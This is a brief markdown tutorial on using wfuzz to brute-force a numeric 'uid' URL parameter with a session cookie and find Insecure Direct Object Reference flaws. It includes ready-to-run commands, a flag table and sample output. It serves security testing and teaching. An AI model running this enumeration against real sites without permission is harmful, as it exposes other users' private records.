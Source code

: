 
# Using Wfuzz to Detect IDOR Vulnerabilities

## 🔍 Command

```bash
wfuzz -c -z file,/usr/share/seclists/Fuzzing/5-digits-00000-99999.txt \
      --hc 404 --hh 2873 \
      -H "Cookie: PHPSESSID=2a19139a5af3b1e99dd277cfee87bd64" \
      http://target:80/user/?uid=FUZZ
```

```shell
wfuzz -c -z file,/usr/share/SecLists/Fuzzing/uid_range_15990_32000.txt --hc 404 --hh 2873 -H "Cookie: PHPSESSID=df1ff45401a6cc7e027d55d7a66587bb" http://target:80/user/?uid=FUZZ
```

---

## 📘 Explanation

| Component | Meaning |
|----------|---------|
| `wfuzz` | Web fuzzer tool used for security testing. |
| `-c` | Enables colored output. |
| `-z file,/usr/share/seclists/Fuzzing/5-digits-00000-99999.txt` | Loads a wordlist with all 5-digit numbers (00000–99999) for brute-forcing UID values. |
| `--hc 404` | Hides responses with HTTP status code 404 (Not Found). |
| `--hh 2873` | Hides responses that are exactly 2873 bytes long (likely default/error pages). |
| `-H "Cookie: PHPSESSID=..."` | Sends a session cookie to simulate an authenticated user. |
| `http://idor-sandbox:80/user/?uid=FUZZ` | Target URL where `FUZZ` is replaced with each wordlist entry. |

---

## 🎯 Purpose

This command attempts to brute-force the `uid` parameter to discover accessible user records. It filters out known errors and generic responses, helping to detect possible **Insecure Direct Object Reference (IDOR)** vulnerabilities.

---

## 📌 Sample Output

```text
000045:  C=200  L=1453  W=90  Ch=6900  "00045"
000089:  C=200  L=1520  W=88  Ch=7200  "00089"
```

A different length/content indicates the UID might be valid and accessible—possibly exposing unauthorized data.

---

## 🛡️ Tip

Always perform this kind of testing ethically and with permission. It is a powerful method for discovering IDOR flaws but must be handled responsibly.

---

## 📚 References

- [Wfuzz Documentation](https://wfuzz.readthedocs.io/)
- [OWASP: Broken Access Control](https://owasp.org/Top10/A01_2021-Broken_Access_Control/)
